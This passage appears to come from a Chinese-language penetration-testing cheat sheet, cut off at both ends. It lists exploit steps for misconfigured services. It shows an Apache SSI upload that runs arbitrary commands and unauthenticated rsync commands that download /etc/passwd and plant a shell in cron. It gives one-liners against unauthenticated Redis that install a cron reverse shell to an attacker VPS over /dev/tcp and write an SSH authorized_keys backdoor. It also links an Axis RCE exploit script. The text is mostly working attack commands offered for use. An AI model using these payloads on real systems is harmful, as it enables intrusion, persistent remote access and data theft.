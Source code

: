 ```

------WebKitFormBoundary38LloOXE0KEPGEGk--

```
#### Apache_SSI_远程命令执行漏洞
```
条件：服务器开启了SSI与CGI支持，那么可以上传一个 xxx.shtml 文件来执行任意命令

xxx.shtml内容：
<!--#exec cmd="whoami" -->

上传xxx.shtml完成后，直接浏览器访问 xxx.shtml 即可执行whoami命令
```

### rsync_未授权访问漏洞
```
查看远程tarket-ip的模块名列表:
rsync rsync://tarket-ip:873/

列出path模块下的文件：
rsync rsync://tarket-ip:873/path/

下载任意文件到本地 ./ 下：
rsync -av rsync://tarket-ip:873/path/etc/passwd ./

上传任意文件：
rsync -av shell rsync://tarket-ip:873/path/etc/cron.d/shell
```
### redis_未授权访问漏洞
```
一行命令计划任务反弹shell：
(sleep 1;echo "info";sleep 2;echo "set x \"\n* * * * * bash -i >& /dev/tcp/vps_ip/8888 0>&1\n\"";sleep 1;echo "config get dir";sleep 2;echo "config get dbfilename";sleep 2;echo "config set dir /var/spool/cron";sleep 1;echo "config set dbfilename root";sleep 1;echo "save";sleep 1;echo "exit")|telnet target 6379

ssh秘钥写入
ssh-keygen -t rsa   # 然后目录下生成2个文件 私钥:id_rsa 公钥:id_rsa.pub
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
cat temp.txt #生成的ssh_payload
(sleep 1;echo "info";sleep 2;echo "set x \"\n\n复制生成的ssh_payload\n\n\"";sleep 1;echo "config get dir";sleep 2;echo "config get dbfilename";sleep 2;echo "config set dir  /root/.ssh/";sleep 1;echo "config set dbfilename authorized_keys";sleep 1;echo "save";sleep 1;echo "exit")|telnet target 6379
ssh root@target -i id_rsa #本地连接即可

```
### axis_rce漏洞
漏洞利用脚本：
- [hacden/axis_enable_remote](https://github.com/hacden/Hack/blob/master/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E8%84%9A%E6%9C%AC/axis_enable_remote.py)
```
参考：https://xz.aliyun.com/t/7981
```
### jolokia未授权漏洞
```
另利用方法：
POST /jolokia/ HTTP/1.1
Host: localhost:10007
Content-Type: application/json
Content-Length: 206

{
```